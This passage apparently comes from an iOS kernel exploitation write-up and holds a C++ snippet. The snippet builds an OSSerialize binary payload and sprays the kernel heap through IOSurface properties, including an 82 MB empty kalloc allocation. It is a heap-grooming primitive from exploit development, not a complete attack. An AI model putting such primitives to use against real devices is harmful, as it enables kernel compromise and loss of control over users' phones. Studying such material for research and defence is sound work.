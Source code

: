 ```cpp
    args->xml[i++] = kOSSerializeBinarySignature;                            //<kOSSerializeBinarySignature />
    args->xml[i++] = kOSSerializeArray | 2 | kOSSerializeEndCollection;      //<array capacity="2">
    args->xml[i++] = kOSSerializeDictionary | capacity;                      //<dict capacity="capacity">
    args->xml[i++] = kOSSerializeSymbol | 4;                                 //<sym len="4">
    args->xml[i++] = 0x00aabbcc;                                             //\xaa\xbb\xcc</sym>
    args->xml[i++] = kOSSerializeBoolean | kOSSerializeEndCollection;        //<false/></dict>
    args->xml[i++] = kOSSerializeSymbol | 5 | kOSSerializeEndCollection;     //<sym len="5">
    args->xml[i++] = kalloc_key;                                             //key</sym></array>
    args->xml[i++] = 0;

/*
    <kOSSerializeBinarySignature />
    <kOSSerializeArray>2</kOSSerializeArray>
    <kOSSerializeDictionary capacity=${capacity}>
        <kOSSerializeSymbol length=4>
            0x00aabbcc?
        </kOSSerializeSymbol>
        <kOSSerializeBoolean>false</kOSSerializeBoolean>
    </kOSSerializeDictionary>
    <kOSSerializeSymbol length=5>
        ${kalloc_key}
    </kOSSerializeSymbol>
    0 // Null-terminate
*/
    kern_return_t ret = IOSurface_set_value(args, args_size);
    
    free(args);
    return ret;
}

...
 
    int property_index = 0;
    uint32_t huge_kalloc_key = transpose(property_index++);
    ret = IOSurface_empty_kalloc(82 MB, huge_kalloc_key);
    if (ret) {
        ERROR("Failed to allocate empty kalloc buffer (ret: 0x%x, %s)\n", ret, mach_error_string(ret));
        goto err;
    }
```

![image.png](pics/image%201.png)
